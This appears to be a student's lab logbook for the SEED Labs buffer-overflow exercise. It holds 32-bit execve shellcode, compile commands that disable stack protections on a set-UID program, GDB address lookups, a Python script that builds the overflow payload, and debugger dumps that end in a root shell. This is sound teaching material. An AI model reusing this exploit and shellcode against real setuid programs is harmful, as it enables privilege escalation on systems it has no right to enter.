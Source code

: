 # Logbook #5

## Task 1: Getting Familiar with Shellcode

### Step 1: The C Version of Shellcode

Making a shellcode in C would be as simple as just calling `execve()` function with the path to the shell, for example "/bin/sh"

### Step 2: 32-bit Shellcode

As the shellcode in C cannot be easily compiled, we write it directly in 32-bit assembly:

```asm
# Store the command on stack
xor eax, eax
push eax
push "//sh"
push "/bin"
mov ebx, esp # ebx --> "/bin//sh": execve()’s 1st argument
# Construct the argument array argv[]
push eax # argv[1] = 0
push ebx # argv[0] --> "/bin//sh"
mov ecx, esp # ecx --> argv[]: execve()’s 2nd argument
# For environment variable
xor edx, edx # edx = 0: execve()’s 3rd argument
# Invoke execve()
xor eax, eax 
mov al, 0x0b # execve()’s system call number
int 0x80
```

### Step 4: Invoking the Shellcode

Then, we can easily write a C program that declares an array in the stack with the 32-bit binary code of the previous step and compile it with the `execstack` option. Running that program gives the attacker access to a privileged shell:

```shell
$ gcc -m32 -z execstack -o a32.out call_shellcode.c
$ sudo chown root a32.out
$ sudo chmod 4755 a32.out
$ ./a32.out
# whoami
root
```

## Task 2: Understanding the Vulnerable Program

The stack.c program takes advantage of the buffer overflow vulnerability.

In the function `bfo(char * str)`, a buffer `buffer[BUF_SIZE]` is created and the bytes in `str` are copied to it. The vulnerability happens because the `str`  (length=517) is bigger than the buffer allocated (length=148 in the case of this group).

Compiling the code and giving it SET-UID permissions like this

```shell
$ gcc -DBUF_SIZE=148 -z execstack -fno-stack-protector -m32 -o stack-L1 stack.c
$ gcc -DBUF_SIZE=148 -z execstack -fno-stack-protector -m32 -g -o stack-L1-dbg stack.c
$ sudo chown root stack-L1 && sudo chmod 4755 stack-L1
```

creates an executable capable of executing potentially malicious code written in the file given as argument.

## Task 3: Launching Attack on 32-bit Program (Level 1)

### Step 1: Investigation

Using GDB to get the frame pointer's value and the buffer's address.

```shell
gdb-peda$ b bof
Breakpoint 1 at 0x12ad: file stack.c, line 16.
gdb-peda$ run
gdb-peda$ n
gdb-peda$ p $ebp
$1 = (void *) 0xffffcb08
gdb-peda$ p &buffer
$2 = (char (*)[148]) 0xffffca6c
```

Frame Pointer: **0xffffcb08**  
Address of buffer: **0xffffca6c**

### Step 2: Launching Attacks

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
        "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
        "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode) # [1]
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xFFFFCA6C + start # [2]
offset = (0xFFFFCB08 - 0xFFFFCA6C) + 4 # [3]

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open(’badfile’, ’wb’) as f:
	f.write(content)
```

The shellcode is the assembly code provided by SEEDLabs.

The start variable \[1\] will be the position in the file where we put the shellcode. We chose to put it in the end of the file, ie, in the stack, it will be written to `&buffer + 517 - len(shellcode)` .

When the `bof()` function returns, it should start executing our shellcode. So, its return address value should be modified to `&buffer + start` \[2\].

The position of the `bof()` return address can be easily calculated with the expression at \[3\]. Since we know that the return address of a function is at `ebp + 4` , we just need to calculate the location of the `ebp` relative to `&buffer` , which is the difference between the two `(0xFFFFCB08 - 0xFFFFCA6C)` .

---

## Question 2

Below are the states of the program before and after the badfile contents are placed in the stack.

It is worth noting that:

- The EBP and EAX pointers reference a NOOP;
- The stack is populated with NOOPs and the shell code provided.


- strcpy();

  ```
  [----------------------------------registers-----------------------------------]
  EAX: 0x56558fb8 --> 0x3ec0 
  EBX: 0x56558fb8 --> 0x3ec0 
  ECX: 0x60 ('`')
  EDX: 0xffffcf10 --> 0xf7fb4000 --> 0x1e6d6c 
  ESI: 0xf7fb4000 --> 0x1e6d6c 
  EDI: 0xf7fb4000 --> 0x1e6d6c 
  EBP: 0xffffcb08 --> 0xffffcf18 --> 0xffffd148 --> 0x0 
  ESP: 0xffffca60 --> 0x0 
  EIP: 0x565562c5 (<bof+24>:	sub    esp,0x8)
  EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
  [-------------------------------------code-------------------------------------]
     0x565562b5 <bof+8>:	sub    esp,0xa4
     0x565562bb <bof+14>:	call   0x565563fd <__x86.get_pc_thunk.ax>
     0x565562c0 <bof+19>:	add    eax,0x2cf8
  => 0x565562c5 <bof+24>:	sub    esp,0x8
     0x565562c8 <bof+27>:	push   DWORD PTR [ebp+0x8]
     0x565562cb <bof+30>:	lea    edx,[ebp-0x9c]
     0x565562d1 <bof+36>:	push   edx
     0x565562d2 <bof+37>:	mov    ebx,eax
  [------------------------------------stack-------------------------------------]
  0000| 0xffffca60 --> 0x0 
  0004| 0xffffca64 --> 0x0 
  0008| 0xffffca68 --> 0xf7fb4f20 --> 0x0 
  0012| 0xffffca6c --> 0x7d4 
  0016| 0xffffca70 ("0pUV.pUV(\317\377\377")
  0020| 0xffffca74 (".pUV(\317\377\377")
  0024| 0xffffca78 --> 0xffffcf28 --> 0x205 
  0028| 0xffffca7c --> 0x0 
  [------------------------------------------------------------------------------]
  Legend: code, data, rodata, value
  20	    strcpy(buffer, str); 
  ```


- return 1;

  ```
  [----------------------------------registers-----------------------------------]
  EAX: 0xffffca6c --> 0x90909090 
  EBX: 0x56558fb8 --> 0x3ec0 
  ECX: 0xffffd130 --> 0xc031d231 
  EDX: 0xffffcc69 --> 0xc031d231 
  ESI: 0xf7fb4000 --> 0x1e6d6c 
  EDI: 0xf7fb4000 --> 0x1e6d6c 
  EBP: 0xffffcb08 --> 0x90909090 
  ESP: 0xffffca60 --> 0x0 
  EIP: 0x565562dc (<bof+47>:	mov    eax,0x1)
  EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
  [-------------------------------------code-------------------------------------]
     0x565562d2 <bof+37>:	mov    ebx,eax
     0x565562d4 <bof+39>:	call   0x56556120 <strcpy@plt>
     0x565562d9 <bof+44>:	add    esp,0x10
  => 0x565562dc <bof+47>:	mov    eax,0x1
     0x565562e1 <bof+52>:	mov    ebx,DWORD PTR [ebp-0x4]
     0x565562e4 <bof+55>:	leave  
     0x565562e5 <bof+56>:	ret    
     0x565562e6 <main>:	endbr32
  [------------------------------------stack-------------------------------------]
  0000| 0xffffca60 --> 0x0 
  0004| 0xffffca64 --> 0x0 
  0008| 0xffffca68 --> 0xf7fb4f20 --> 0x0 
  0012| 0xffffca6c --> 0x90909090 
  0016| 0xffffca70 --> 0x90909090 
  0020| 0xffffca74 --> 0x90909090 
  0024| 0xffffca78 --> 0x90909090 
  0028| 0xffffca7c --> 0x90909090 
  [------------------------------------------------------------------------------]
  Legend: code, data, rodata, value
  22	    return 1;
  ```
- A snippet of the memory region of the buffer:

  ```
  ...   
     0xffffcc54:	nop
     0xffffcc55:	nop
     0xffffcc56:	xor    eax,eax
     0xffffcc58:	push   eax
     0xffffcc59:	push   0x68732f2f
     0xffffcc5e:	push   0x6e69622f
     0xffffcc63:	mov    ebx,esp
     0xffffcc65:	push   eax
     0xffffcc66:	push   ebx
     0xffffcc67:	mov    ecx,esp
     0xffffcc69:	xor    edx,edx
     0xffffcc6b:	xor    eax,eax
     0xffffcc6d:	mov    al,0xb
     0xffffcc6f:	int    0x80
     0xffffcc71:	add    eax,0x2
  ...
  ```